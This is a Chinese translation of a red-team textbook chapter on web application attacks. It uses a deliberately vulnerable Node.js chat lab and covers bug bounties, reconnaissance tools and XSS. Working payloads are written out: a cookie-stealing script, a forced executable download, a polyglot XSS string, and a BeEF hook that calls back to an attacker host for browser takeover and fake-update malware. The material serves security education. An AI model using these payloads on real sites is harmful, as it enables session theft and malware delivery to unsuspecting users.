# 3 the throw - Web 应用程序利用



过去几年，我们目睹了一些严重的外部面向 Web 攻击。从`Apache Struts 2`（尽管尚未确认与`Equifax`泄露有关 - [`http://bit.ly/2HokWi0`](http://bit.ly/2HokWi0)），`Panera Bread`（[`http://bit.ly/2qwEMxH`](http://bit.ly/2qwEMxH)），和`Uber`（[`http://ubr.to/2hIO2tZ`](http://ubr.to/2hIO2tZ)）。毫无疑问，我们还将看到许多其他来自公共 Internet 面向端点的严重泄露。

## 安全行业周期：攻击向量的转移

整体而言，安全行业呈周期性运行。如果观察 OSI 模型的不同层级，攻击每隔一年就会转移到不同的层级。在 Web 领域，早在 21 世纪初，就有大量的`SQLi`（SQL 注入）和`RFI`（远程文件包含）类型的漏洞利用。然而，当公司开始加固其外部环境并开展外部渗透测试时，作为攻击者，我们转向了第 8 层攻击，侧重于使用社会工程（钓鱼）作为我们的初始切入点。现在，随着组织通过下一代终端/防火墙保护来提升内部安全性，我们的重点正重新转向应用程序漏洞利用。我们还看到应用程序、`API` 和语言的复杂性急剧增加，这重新打开了许多旧的和新的漏洞。

由于本书更侧重于红队测试概念，因此我们不会深入探讨各种 Web 漏洞或其手动利用方法。这不会是一本检查清单式的书籍。你将专注于红队测试人员和恶意攻击者在现实世界中看到的、导致`PII`（个人身份信息）、`IP`（知识产权/信息）、网络等被攻陷的漏洞。对于那些寻找详细 Web 方法论的人，我始终建议从 [OWASP 测试指南](http://bit.ly/2GZbVZd) 或 [此 PDF](https://www.owasp.org/images/1/19/OTGv4.pdf) 开始。

> **注意**：由于`THP2`中的许多攻击并未改变，因此在后续练习中，我们将不再重复`SQLMap`、`IDOR`（不安全的直接对象引用）攻击和`CSRF`（跨站请求伪造）漏洞等示例。相反，我们将专注于更新的关键漏洞。

## 漏洞赏金计划：入门

在我们开始学习如何利用 Web 应用程序之前，让我们先谈谈漏洞赏金计划。我们要回答的最常见问题是，“在这些培训之后我如何持续学习？” 我最好的建议是针对真实的在线系统进行操作。你可以整天做训练实验室，但没有现实生活经验，很难获得成长。

不过要注意：平均而言，你需要 3-6 个月的时间才能开始持续发现漏洞。我们的建议：不要感到沮丧，保持与其他漏洞赏金猎人的联系，别忘了查看较旧的计划。常见的漏洞赏金计划包括 [HackerOne](https://www.hackerone.com)、[BugCrowd](https://bugcrowd.com/programs) 和 [SynAck](https://www.synack.com/red-team/)。还有很多其他的计划（[漏洞赏金计划列表](https://www.vulnerability-lab.com/list-of-bug-bounty-programs.php)）。这些计划的报酬从免费到`$20k+`不等。

许多我的学生觉得开始漏洞狩猎令人生畏。这确实需要你投入其中，每天分配几个小时，并专注于理解如何培养那种第六感以发现漏洞。通常，一个好的起点是查看无奖励的漏洞赏金计划（因为专业人士不会在这里寻找）或像`Yahoo`这样的大型旧计划。这类站点通常具有巨大的范围和大量的遗留服务器。如前几本书所述，确定渗透测试范围非常重要，漏洞赏金也不例外。许多计划指定了允许和禁止的操作（即，禁止扫描，禁止自动化工具，可攻击哪些域等）。有时你运气好，他们允许`*.company.com`，但有时可能仅限于单个 FQDN。

让我们以 eBay 为例，因为它有一个公开的[漏洞赏金计划](http://pages.ebay.com/securitycenter/Researchers.html)。在其漏洞赏金网站上，他们陈述了指南，合格域名，合格漏洞，排除项，如何报告，以及致谢。（见 `images/00033.jpeg`）。

你向公司报告漏洞的方式通常与发现本身一样重要。你希望确保向公司提供尽可能多的细节。这应包括漏洞类型、严重程度/关键性、你采取的利用该漏洞的步骤、截图，甚至是一个可用的概念验证。如果你需要帮助创建一致的报告，请查看[此报告生成表单]：https://buer.haus/breport/index.php。（见 `images/00034.jpeg`）。

在我运营过自己的计划之前，有一点关于针对漏洞赏金计划利用漏洞需要注意：我已经见过一些案例，研究人员得意忘形，越过了验证漏洞的界限。一些例子包括在发现`SQL`注入漏洞后甚至横向移动 within a production environment。这些案例可能导致法律麻烦，甚至可能让你面对联邦调查局。所以请使用你的最佳判断，检查计划的范围，并记住，如果感觉非法，那很可能就是非法的。

## Web 攻击介绍 - 网络空间小猫 (CSK)

在完成侦察和发现后，你会回顾所有你发现的站点。查看你的结果，你没有看到标准的可利用服务器/错误配置的应用程序。没有 Apache Tomcat 服务器或 Heartbleed/ShellShock，看起来他们修补了所有 Apache 问题，并且他们的 CMS 应用程序。

你的第六感直觉全速运转，你开始探测他们的客户支持系统应用程序。感觉有些不对劲，但从哪里开始？ 对于 Web 应用程序漏洞利用。

### 为 Web 环境（客户支持系统）设置演示：

*   下载自定义 VM 从：`http://thehackerplaybook.com/get.php?type=csk-web`。- 下载完整的命令列表用于实验室：`https://github.com/cheetz/THP-ChatSupportSystem-blog/master/lab.txt` - Bit.ly 链接：`http://bit.ly/2qBDrFo`。

*   启动并登录到 VM。当 VM 完全启动时，它应向你显示当前地址的应用程序。你不需要登录到 VM，也不需要提供的密码。由你决定打破进入应用程序。

*   由于这是一个托管在你自己的系统，让我们在攻击者 Kali 系统上建立主机名记录：
    *   在我们的攻击者 VM 上，让我们编辑我们的主机文件以指向易受攻击的应用程序，以便通过主机名引用应用程序而非 IP：`gedit /etc/hosts`。
        *   添加以下行，包含你的易受攻击应用程序的 IP：`[Vuln App 的 IP 地址] chat`。

现在，在 Kali 中的浏览器中前往并访问`http://chat:3000/`。如果一切顺利，你应该能够看到 NodeJS 自定义易受攻击的应用程序。Web 部分的命令和攻击可能非常长。

前两本书专注于如何高效且有效地测试 Web 应用程序——这次会有所不同。我们将跳过许多基本攻击并转向现实世界中使用的攻击。

鉴于本书更偏向实战性质，我们不会深入探讨 Web 应用测试的所有技术细节。然而，这并不意味着这些细节可以忽视。一个优秀的 Web 应用测试信息资源是 Open Web Application Security Project（OWASP）。OWASP 专注于开发和应用安全教育。每隔几年，OWASP 就会编译一份最常见的问题列表并公开发布——`http://bit.ly/2HAhoGR`。更深入的测试指南位于此处：`http://bit.ly/2GZbVZd`。

本文件将引导您查找要关注的漏洞类型、相关风险以及如何利用它们。这是一份极佳的检查清单文档：`http://bit.ly/2qyA9m1`。

由于我的许多读者都在试图进入安全领域，我想简要强调一点：如果您打算从事渗透测试工作，那么至少背熟和精通 OWASP Top 10 是至关重要的。您不仅要知道它们是什么，还应对每一种都具备优秀的示例，说明其带来的风险类型以及如何进行检查。现在，让我们回到攻破 CSK 的话题上。

### 聊天支持系统实验室

即将受到攻击的聊天支持系统实验室旨在实现交互性，并突出新旧各类漏洞。正如您将看到的那样，对于后续的许多实验室，我们都会提供一个包含聊天支持系统特定版本的定制虚拟机。

该应用程序本身是用 Node.js 编写的。为什么选择 Node.js？作为渗透测试人员，我们会看到它是增长最快的应用程序之一。由于许多开发者和 Node.js 关系匪浅，我觉得您理解作为后端代码运行 JavaScript 的安全影响非常重要。

#### 什么是 Node.js？

"Node.js® 是基于 Chrome 的 V8 JavaScript 引擎构建的 JavaScript 运行时。Node.js 使用事件驱动的非阻塞 I/O 模型，使其轻量且高效。”[`https://nodejs.org/en/`](https://nodejs.org/en/) Node.js 的包生态系统 NPM（Node Package Manager）是世界上最大的开源库生态系统。

在非常基础层面上，Node.js 允许您在浏览器之外运行 JavaScript。由于 Node.js 具有轻量、快速和跨平台的特点，它可以极大地通过统一技术栈来简化项目。虽然 Node.js 本身不是 Web 服务器，但它允许服务器（一种您可以用 JavaScript 编程的环境）存在于实际 Web 客户端之外的环境中。

优点：
*   速度极快
*   单线程 JavaScript 环境，能够充当独立的 Web 应用服务器
*   Node.js 不是一项协议；它是一个用 JavaScript 编写的 Web 服务器
*   NPM 注册表托管着近 50 万个免费的、可重用的 Node.js 包，使其成为世界上最大的软件注册表

在过去几年中，随着 Node.js 变得如此流行，对于渗透测试人员/红队人员来说，理解需要寻找什么以及如何攻击这些应用程序非常重要。例如，一名研究员发现薄弱的 NPM 凭据使他能够获得 13% 的 NPM 包的编辑/发布权限。通过依赖链，估计有 52% 的 NPM 包可能受到漏洞影响。[`https://www.bleepingcomputer.com/news/security/52-percent-of-all-javascript-npm-packages-could-have-been-hacked-via-weak-credentials/`](https://www.bleepingcomputer.com/news/security/52-percent-of-all-javascript-npm-packages-could-have-been-hacked-via-weak-credentials/)

在接下来的例子中，我们的实验室将以 Node.js 作为应用程序的基础，并利用 Express 框架（[`https://expressjs.com/`](https://expressjs.com/)）作为我们的 Web 服务器。随后，我们将 Pug（[`https://pugjs.org/`](https://pugjs.org/)）模板引擎添加到我们的 Express 框架中。这与我们现在在新开发的应用中常见的做法类似。



Express 是一个用于 Node.js 的最小化 Web 框架。Express 为 Web 和移动应用程序提供了一组强大的功能，因此您无需进行大量工作。通过使用名为 Middlewares 的模块，您可以添加第三方身份验证或类似 Facebook Auth 或 Stripe 支付处理的服务。

Pug（以前称为 Jade）是一个服务器端模板引擎，您可以（但不必须）与 Express 一起使用。Jade 用于在服务器上程序化生成 HTML 并将其发送到客户端。

让我们攻击 CSK 并启动聊天支持系统虚拟机。

## 网络空间猫咪：聊天支持系统

您无意中撞见了面向外部的“网络空间猫咪”聊天支持系统。当您慢慢浏览所有页面并了解底层系统时，请寻找应用程序中的弱点。您需要找到进入服务器的第一个入口点，以便能够转向生产环境。

您首先运行了所有漏洞扫描器和 Web 应用扫描器的报告，但一无所获。看来该公司 regularly（定期）运行常见的漏洞扫描器，并已修补了其大多数问题。现有的“金蛋”发现结果现在依赖于编码问题、配置错误和逻辑缺陷。您还注意到该应用程序正在运行 NodeJS，这是一种近期流行的语言。

### 设置您的 Web 应用黑客机器

虽然对于攻击 Web 应用程序没有完美的配方，但您需要的一些基本工具包括：
*   武装自己的浏览器。许多浏览器在复杂 XSS 逃避方面的表现大相径庭：
    *   Firefox（我进行测试的首选）
    *   Chrome
    *   Safari
*   Wappalyzer：一款跨平台实用程序，可 uncover（揭示）网站上使用的技术。它能检测内容管理系统、电子商务平台、Web 框架、服务器软件、分析工具等。[`https://wappalyzer.com/`](https://wappalyzer.com/)
    *   Wappalyzer
    *   https://wappalyzer.com/
*   BuiltWith：网站配置文件工具。查阅某一页面时，BuiltWith 会返回该页面上可发现的所有技术。BuiltWith 的目标是帮助开发者、研究人员和设计师了解页面使用的技术，这可能会帮助他们决定要自行实施哪些技术。
    *   BuiltWith
    *   https://builtwith.com/
*   Retire.JS：扫描 Web 应用以查找是否有使用易受攻击的 JavaScript 库。Retire.js 的目标是帮助您检测已知漏洞版本的使用情况。
    *   Retire.js
    *   https://chrome.google.com/webstore/detail/retirejs/moibopkbhjceeedibkbkbchbjnkadmom?hl=en
*   Burp Suite（约$350）：虽然这款商业工具价格有点贵，但它绝对是物超所值的，也是渗透测试人员/红队人员的必备工具。其优势来自附加组件、模块化设计和用户开发基础。如果您买不起 Burp，OWASP ZAP（免费）是一个极佳的替代品。

### 分析 Web 应用程序

在我们进行任何类型的扫描之前，重要的是尝试理解底层代码和基础设施。如何知道正在运行后端的是什么呢？我们可以使用 Wappalyzer、BuiltWith，或者只使用 Google Chrome 的开发者工具检查。在下方的图片中，加载聊天应用程序时，我们可以看到 HTTP 标头中包含"X-Powered By: Express"。我们还可以看到 Wappalyzer 表明该应用程序正在使用 Express 和 Node.js。



在盲目攻击站点之前理解应用程序可以帮助您提供更佳的方案。此外，这也有助于针对可能配备 WAF（Web 应用防火墙）的站点，让您能够执行更隐秘的“忍者式”攻击。

### Web 发现

在之前的书籍中，我们更深入地讲解了如何使用 Burp Suite 以及如何对站点进行渗透测试。我们将略过许多设置基础知识，更多地集中在攻击站点本身。

在此时此刻，我们将假设您已经配置好了 Burp Suite（免费或付费版），并且您正在使用 THP Kali 镜像。一旦我们了解了底层系统，我们就需要识别所有端点。我们需要像以前一样运行相同的发现工具。
*   Burp Suite（[`https://portswigger.net/burp`](https://portswigger.net/burp)）
    *   Spidering（自动爬虫）：在免费和付费版本中，Burp Suite 都拥有一套优秀的爬虫工具。
    *   内容发现：如果您使用 Burp Suite 的付费版本，在 `Engagement` 工具下的一个最受欢迎的内容发现工具是 `Discover Content`。这是一个智能且高效的内容发现工具，用于查找目录和文件。您可以为扫描指定几种不同的配置。
    *   Active Scan（主动扫描）：对所有参数运行自动漏洞扫描，并测试多种 Web 漏洞。
*   `OWASP ZAP`（`http://bit.ly/2IVNaO2`）
    *   与 Burp 类似，但完全是开源免费的。具有类似的发现和主动扫描功能。


*   `Dirbuster`
    *   这是一个已经存在多年的旧工具，用于发现 Web 应用程序的文件和文件夹，但它仍然能完成这项工作。
    *   目标 URL：`http://chat:3000`
    *   单词列表 (Word List)：
        *   `/usr/share/wordlists/dirbuster/directory-list-2.3-small.txt`

*   `GoBuster` (`https://github.com/OJ/gobuster`) 
    *   非常轻量且快速的目录与子域名暴力破解工具 (`gobuster -u http://chat:3000 -w /opt/SecLists/Discovery/Web-Content/raft-small-directories.txt -s 200,301,307 -t 20`)

您的单词列表非常重要。我最喜欢的一个旧单词列表称为 `raft`，它是许多开源项目的集合。您可以在此处找到这些以及其他有价值的单词列表：`https://github.com/danielmiessler/SecLists/tree/master/Discovery/Web-Content`（这已包含在您的 `THP Kali` 镜像中）。

现在我们已经完成了概述部分，让我们进入一些攻击内容。从红队角度来看，我们正在寻找可以主动攻击且性价比最高的漏洞。如果我们正在进行审计或渗透测试，我们可能会报告诸如 SSL 问题、默认的 Apache 页面或非可利用的来自`vulnerability scanner`(漏洞扫描器)发现的漏洞等问题。但是，在我们的红队任务中，我们可以完全忽略这些问题，专注于能够获得高级访问权限、Shell 会话或泄露 `PII`(个人隐私信息)攻击。

## 跨站脚本 (XSS)

到目前为止，我们已经见识并处理过 `Cross-Site Scripting` (`XSS`)。使用传统的 `XSS` 攻击 `<script>alert(1)</script>`来测试网站上的每个变量对于漏洞赏金项目来说可能很出色，但我们能做得更多吗？我们可以使用哪些工具和方法更好地利用这些攻击？

因此，我们都知道 `XSS` 攻击是客户端攻击，允许攻击者构建特定的 Web 请求以注入恶意代码到响应中。这通常可以通过正确实施客户端和服务器端的输入验证来修复，但绝不那么简单。为什么会这样呢？您问为什么？这是由多种原因造成的。从编码质量差、对框架缺乏理解，有时应用程序过于复杂以至于难以理解输入的去向等各个方面。

由于警报框实际上不会造成任何真正的伤害，让我们先从一些基本的`XSS`攻击类型开始：

*   Cookie 窃取 `XSS`：`<script>document.write('/Stealer.php?cookie=' + document.cookie + '" />');</script>`
*   强制下载文件：`<script>var link = document.createElement('a'); link.href = 'http://the.earth.li/~sgtatham/putty/latest/x86/putty.exe'; link.download = ''; document.body.appendChild(link); link.click();</script>`
*   重定向用户：`<script>window.location = "https://www.youtube.com/watch?v=dQw4w9WgXcQ";</script>`
*   其他脚本：用于启用键盘记录器、截取照片等功能
    *   `http://www.xss-payloads.com/payloads-list.html?c#category=capture`

### 混淆/多态 XSS 载荷 (Obfuscated/Polyglot XSS Payloads)

在当今世界，标准的`XSS`负载均衡（payload）仍然经常有效，但我们确实会遇到一些会阻止某些字符的应用程序或在该应用程序前面部署 `WAF`(Web Application Firewall, Web 应用防火墙)。两个很好的资源可帮助您开始构建`obfuscated`(混淆的)`XSS`负载攻击：

*   `https://github.com/foospidy/payloads/tree/master/other/xss`
*   `https://www.owasp.org/index.php/XSS_Filter_Evasion_Cheat_Sheet`

有时在评估期间，您可能会遇到简单的`XSS`过滤器，它们查找类似 `<script>` 的字符串。混淆`XSS`负载是一种选择，但也值得注意并非所有 `JavaScript`载荷都需要公开和关闭的`<script>标记`。有一些 `HTML Event Attributes`(HTML 事件属性)，这些属性在被触发时会执行 JavaScript（`https://www.w3schools.com/tags/ref_eventattributes.asp`）。这意味着任何专门查找脚本标签的规则都将无用。例如，以下位于 `<script>` 标签之外的、用于执行 JavaScript 的 HTML 事件：

*   `<b onmouseover=alert('XSS')>Click Me!</b>`
*   `<svg onload=alert(1)>`
*   `<body onload="alert('XSS')">`
*   ``

您可以在 CSK 应用程序上尝试这些每一种 `HTML`实体攻击，方法是进入该应用程序：`http://chat:3000/`（请记住修改您的 `/etc/host`文件以使`chat`指向您的 VM IP）。一旦您在那里，注册一个帐户并登录到该应用程序，然后前往聊天功能（`http://chat:3000/chatchannel/1`）。尝试不同的实体攻击和混淆载荷。



其他关于`XSS`的优秀资源：

*   第一个是@jackmasa 制作的思维导图 `Mind Map`。这是一个极好的文档，根据不同位置提供的输入来分解各种 XSS 负载（虽然不再出现在 JackMasa GitHub 页面），但副本可以在这里找到：`http://bit.ly/2qvnLEq`。
*   另一个优秀的资源讨论了哪些浏览器易受哪种 `XSS`载荷的攻击：`https://html5sec.org/`。



JackMasa XSS Mind Map (思维导图）

如您所见，试图找到应用程序上的每一个`XSS`可能会很烦人。这是因为受影响的是具有不同代码功能、不同类型的 HTML 标签、不同类型的应用程序以及不同类型的过滤器的漏洞参数。尝试找到初步的 `XSS`弹出窗口可能需要很长时间。如果我们能尝试将多个载荷链接到单个请求中怎么办？

这种最后一种类型的负载称为 `Polyglot`(多态/聚合)。一个`Polyglot`加载器采用许多不同类型的载荷/混淆技术，并将它们编译成一个攻击。这对于查找 XSS 的自动化脚本、时间有限的漏洞赏金猎人来说非常棒，或者只需快速找到输入验证问题的方法就是这样简单。

因此，不同于正常的 `<script>alert(1)</script>`，我们可以像这样（`http://bit.ly/2GXxqxH`）构建一个多态 Polyglot：

*   `/*-/\` `/*'/"**/( \*/ oNcliCk=alert() )//%0D %0A % 0d%0a // </stYle /</titLe /</teXtarEa /</scRipt/--!\>\\x3csVg/<sVg/oNloAd=alert ()>//>\x3e`

如果您查看上面的载荷，攻击者试图跳出注释、引号和斜杠；执行 onclick `XSS`；关闭多个标签；最后尝试 onload XSS。这类攻击使 Polyglots（多态）在识别 XSS 方面极其有效和高效。您可以在此处了解更多关于这些 Polyglott XSS 的内容：`https://github.com/0xsobky/HackVault/wiki/Unleashing-an-Ultimate-XSS-Polyglot`

如果您想测试并尝试不同的 `polyglots`，您可以在易受攻击的 `XSS`页面（`http://chat:3000/xss`）或整个聊天应用程序中测试。

### BeEF（浏览器利用框架）

**Browser Exploitation Framework**（`http://beefproject.com/`）或 **BeEF**将 XSS 提升到了另一个水平。该工具向受害者的浏览器注入 `JavaScript`负载，从而感染用户的系统。这会在受害者浏览器上创建一个用于 JavaScript 后渗透的 C2(C&C, Command and Control)渠道。

从红队的角度来看，BeEF 是攻击活动中非常棒的工具，可用于追踪用户、捕获凭据、执行 clickjacking（点击劫持）、利用 tabnapping（标签页窃取）等功能。如果不在攻击期间使用它，则 BeEF 是一个非常棒的工具，可以展示 XSS 漏洞的威力。这也可以协助进行更复杂的攻击，我们将在本书后面的 `Blind XSS`(盲注/隐式 XSS)部分进行讨论。

**BeEF**分为两部分：一个是服务器，另一个是攻击载荷。要启动服务器：

在您的攻击者 Kali Host(主机) 上运行 BeEF (Server)：
*   从`Terminal`(终端)：
    *   `beef-xss`
    *   使用 **beef:beef**进行身份验证
    *   查看 `http://127.0.0.1:3000/hook.js`

完整负载挂钩文件：
*   `<script src="http://<Your IP>:3000/hook.js"></script>`

查看位于`http://127.0.0.1:3000/hook.js`上的`hook.js`文件，您应该会看到类似长混淆的 JavaScript 文件。这就是将受害者连接回命令控制服务器的客户端负载。

一旦您确定了目标应用程序上的 XSS 漏洞，与其使用原始`alert(1)`风格的负载，您会修改 `<script src="http://<Your IP>:3000/hook.js"></script>` 负载以利用该漏洞。一旦受害者陷入此 XSS 陷阱，这会导致其浏览器连接回您并成为僵尸网络的一部分。

BeEF 支持哪些类型的后渗透攻击？一旦受害者受控，您实际上可以做 JavaScript 所能做的任何事情。您可以通过 HTML5 启动他们的摄像头并拍摄受害者的照片，您可以在屏幕上推送叠加层以捕获凭据，或者可以将他们重定向到恶意网站以执行恶意软件。

以下是关于 BeEF 能够从 XSS 攻击中引起巨大问题的快速演示：

首先，请确保您的 BeEF 服务器在您的攻击者机器上运行。在我们的易受攻击的 Chat Support System 应用程序上，您可以前往`http://chat:3000/xss`，在 Exercise 2 字段中输入您的负载：

*   `<script src="http://127.0.0.1:3000/hook.js"></script>`

一旦受害者连接到您的僵尸网络，您就完全控制了他们的浏览器。您可以根据其设备、浏览器和启用的功能执行各种攻击。使用社会工程学策略展示 XSS 影响的绝佳方法是通过 Flash 更新提示向其计算机推送恶意软件。



执行后，受害者的计算机上会出现弹窗，迫使其安装更新，其中将包含额外的恶意软件。



我建议花时间探索所有的 BeEF 后渗透模块并理解 JavaScript 的强大功能。既然我们控制浏览器，我们必须找出如何在红队行动中利用这一点。一旦从 XSS 感染了受害者，您还想做什么？我们将在 XSS 到入侵部分讨论这一点。

## 盲 XSS

盲 XSS 很少被讨论，因为这是耐心者的游戏。什么是盲 XSS？正如攻击名称所示，当执行存储的 XSS 负载对攻击者/用户不可见，但对管理员或后端员工可见时，就是盲 XSS。虽然这种攻击由于能够攻击后端用户而可能造成严重危害，但往往被忽视。

例如，假设应用程序有一个“联系我们”页面，允许用户向管理员提供联系信息以便日后联系。由于该数据的结果仅可由管理员手动查看，而请求用户无法查看，如果应用程序易受 XSS 攻击，那么攻击者不会立即看到他们的`alert(1)`攻击。在这种情况下，我们可以使用 XSSHunter（`https://xsshunter.com`）帮助我们验证盲 XSS。

XSSHunter 的工作原理是，当我们的 JavaScript 负载执行时，它会拍摄受害者屏幕（当前查看的页面）的截图，并将这些数据发送回 XSSHunter 的网站。当这种情况发生时，XSSHunter 将发送警报，告知我们的负载已执行并提供所有详细信息。我们现在可以回去创建一个非常恶意的负载并重新进行我们的攻击。

XSS Hunter：
*   禁用任何代理（即 `Burp Suite`）
*   在 `https://xsshunter.com` 创建账户
*   在 `https://xsshunter.com/app` 登录
*   前往负载获取您的负载
*   修改负载以适配您的攻击或构建混合负载
*   检查 XSS Hunter 以查看负载执行





## 基于 DOM 的 XSS

反射性和存储 XSS 的理解相对简单。正如我们所知，服务器没有对用户提供充分的输入/输出验证，我们的恶意脚本代码会在源代码中呈现给用户。然而，在基于 DOM 的 XSS 中，情况略有不同，这导致了许多常见的误解。因此，让我们花时间专注于基于 DOM 的 XSS。

文档对象模型 (DOM) 基于的 XSS 成为可能，是因为攻击者可以操纵 Web 应用程序的客户端脚本。如果攻击者可以将恶意代码注入 DOM 并由客户端浏览器读取，则当从 DOM 中读取数据时，负载将被执行。

DOM 到底是什么？文档对象模型 (DOM) 是 HTML 属性的表示。由于您的浏览器不理解 HTML，它使用解释器将 HTML 转换为称为 DOM 的模型。

让我们在 Chat Support Site 上了解这一点。查看易受攻击的 Web 应用程序，您应该能够看到聊天网站易受 XSS 攻击：
*   创建账户
*   登录
*   前往聊天
*   尝试 `<script>alert(1)</script>` 然后尝试一些疯狂的 XSS 攻击！

在我们的示例中，Node.js 在服务器端运行，`socket.io`（Node.js 库）在用户和服务器之间设置 Web 套接字，客户端 JavaScript 和我们的恶意 `msg.msgText` 是 JavaScript。正如您在下图和页面的源代码中看到的，您不会像标准反射性/存储 XSS 那样直接看到`alert`负载的引用。在这种情况下，我们收到的唯一表明我们的负载可能在哪里执行的参考是来自 `msg.name` 的引用。这有时使得我们难以确定在哪里执行我们的 XSS 负载，或者是否有任何 HTML 标签需要跳出。



## NodeJS 中的高级 XSS

XSS 一直回归的一个主要原因是因为它比仅仅过滤标签或特定字符要困难得多。当负载特定于某种语言或框架时，XSS 变得非常难以防御。由于每种语言在漏洞方面都有奇特性，NodeJS 也不例外。

在高级 XSS 部分，您将浏览几个示例，其中语言特定的 XSS 漏洞发挥作用。我们的 NodeJS Web 应用程序将使用更常见的 Web 堆栈和配置。此实现包括 Express 框架（`https://expressjs.com/`）和 Pug 模板引擎（`https://pugjs.org/`）。重要的是要注意，默认情况下，Express 没有内置的 XSS 防护，除非通过模板引擎进行渲染。当使用如 Pug 之类的模板引擎时，有找到 XSS 漏洞的两种常见方式：(1) 通过字符串插值，(2) 缓冲代码。

模板引擎有一个字符串插值的概念，即是一种花哨的说法，即“字符串变量的占位符”。例如，让我们在 Pug 模板格式中为变量分配字符串：

*   `- var title = "This is the HTML Title"`
*   `- var THP = "Hack the Planet"`
*   `h1 #{title}`
*   `p The Hacker Playbook will teach you how to #{THP}`

注意 `#{THP}` 是指分配给 THP 的变量的占位符。我们通常在电子邮件分发消息中看到这些模板。您是否曾收到来自自动系统的电子邮件，其中有 `Dear ${first_name}`……而不是您实际的第一个名字？这正是模板引擎的用途。

当上面的模板代码渲染为 HTML 时，它将看起来像：

*   `<h1>This is the HTML Title</h1>`
*   `<p>The Hacker Playbook will teach you how to Hack the Planet</p>`


幸运的是，在这个案例中，我们使用的是`"#{THP}"`字符串插值，即`Pug`插值的转义版本。正如您所见，通过使用模板，我们可以创建非常可重用的代码并使模板非常轻量。

`Pug`同时支持转义和非转义字符串插值。转义与非转义插值的区别是什么？嗯，使用转义字符串插值会对`<`、`>`、`'`和`"`等字符进行`HTML`编码。这将有助于向用户提供输入验证反馈。如果开发人员使用非转义字符串插值，通常会导致`XSS`漏洞。

此外，字符串插值（也可称为变量插值、变量替换或变量扩展）是指评估包含一个或多个占位符的字符串字面量，并生成将这些占位符替换为相应值的结果的过程。[https://en.wikipedia.org/wiki/String_interpolation]

- 在`Pug`中，转义与非转义字符串插值（[https://pugjs.org/language/interpolation.html]）：
  - `!{}` – 非转义字符串插值
  - `#{}` – 转义字符串插值 *虽然这是转义的，但如果直接通过`JavaScript`传递，仍可能易受`XSS`攻击*
- 在`JavaScript`中，未转义的缓冲代码以`"!="`开头。`"!="`之后的任何内容都将自动作为`JavaScript`执行。[https://pugjs.org/language/code.html#unescaped-buffered-code]
- 最后，任何时候允许插入原始`HTML`，都存在`XSS`的潜在风险。

在现实生活中，我们看到许多基于上述记法的案例易受`XSS`攻击，原因是开发人员忘记了当前所处的上下文以及输入的来源。让我们看看几个涉及我们易受攻击的`Chat Support System`应用程序的示例。请访问`VM`上的以下`URL`：`http://chat:3000/xss`。我们将逐一讲解这些练习，帮助您理解`NodeJS`/`Pug` `XSS`。

#### `Exercise 1` ([http://chat:3000/xss])

在这个示例中，我们将转义字符串插值插入到`paragraph`标签中。这是不可利用的，因为我们在`HTML` `paragraph`上下文中使用了正确的转义字符串插值记法。

- 前往`http://chat:3000/xss`并点击`Exercise` #1
- `Pug`模板源代码：
  - `p No results found for #{name1}`
- 尝试输入并提交以下载荷：
  - `<script>alert(1)</script>`
- 点击返回到`Exercise` #1并查看`No Results Output`（无结果输出）
- 查看`HTML Response`（查看页面源代码）：
  - `&#x3C;script&#x3E;alert(1)&#x3C;/script&#x3E;`

